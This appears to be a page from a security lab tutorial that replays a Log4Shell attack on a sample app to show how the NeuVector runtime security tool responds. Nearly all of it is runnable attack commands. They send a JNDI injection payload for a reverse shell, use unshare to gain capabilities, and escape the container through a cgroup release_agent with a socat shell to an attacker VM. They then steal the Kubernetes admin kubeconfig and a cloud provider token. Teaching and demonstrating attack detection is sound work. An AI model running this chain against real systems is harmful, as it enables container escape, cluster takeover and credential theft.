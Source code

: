+++
title = "Run attack again"
weight = 17
+++

Ensure, that you have a fresh shell on both attacker01 and attacker02. Cancel running processes with Ctrl+C.

Then open nc on attacker 01

```ctr:
sudo nc -lvnp 443
```

And socat on attacker02

```ctr:
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

We are going to run the attack again, to see how NeuVector behaves.

Execute the request to trigger the attack:

**Run the following commands on the victim01 VM.**

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The attacker01 VM now received a remote shell from the container.

**Run the following commands on the attacker01 VM.**

We can list the container filesystem

```ctr:
ls -la
```

or the running processes

```ctr:
ps auxf
```

Let's try to install kubectl into the container

```ctr:
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

And access the Kubernetes API. This should create an error, because the Pod's ServiceAccount does not have any permissions to access the Kubernetes API:

```ctr:
kubectl get pods
```

Let's try something else and list the Linux capabilities of the container

```ctr:
capsh --print
```

Not that our container does not have `cap_sys_admin` capabilities.

Let's try to change this by exploiting a Kernel vulnerability:

```ctr:attacker01
unshare -UrmC bash
capsh --print
```

Now that we have `cap_sys_admin` capabilities. We can try to exploit another Kernel bug to break out of the container and create a second remote shell from the host system to the attacker02 VM.

Create a new RDMA cgroup

```ctr:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

Enables cgroup notifications on release of the "x" cgroup

```ctr:
echo 1 > /tmp/cgrp/x/notify_on_release
```

Get the path of the OverlayFS mount for our container

```ctr:
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

Set the release agent to execute `/{overlay_fs_host_path}/cmd` on the host (`/cmd` inside of the container) when the cgroup is released

```ctr:
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Create the command, which will run socat and create a remote shell to the attacker02 VM

```ctr:
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:${vminfo:attacker02:public_ip}:4445" >> /cmd
chmod a+x /cmd
```

Run `echo` in the cgroup, which will directly exit and trigger the release agent cmd (execute `/{overlay_fs_host_path}/cmd`):

```ctr:
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now we got a remote shell on the attacker02 VM where we are root directly on the victim01 host

**Run the following commands on the attacker02 VM.**

```ctr:
whoami
docker ps
```

Install kubectl

```ctr:
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```

Get kubeconfig

```ctr:
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Now we are admin in the Kubernetes cluster

```ctr:
kubectl get pods -A
```

Get the cloud provider token

```ctr:
do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)
```

Install doctl

```ctr:
cd ~
wget https://github.com/digitalocean/doctl/releases/download/v1.94.0/doctl-1.94.0-linux-amd64.tar.gz
tar xf ~/doctl-1.94.0-linux-amd64.tar.gz
mv ~/doctl /usr/bin
```

Try to log in with the fake token (this will fail):

```ctr:
doctl auth init -t $do_token
```

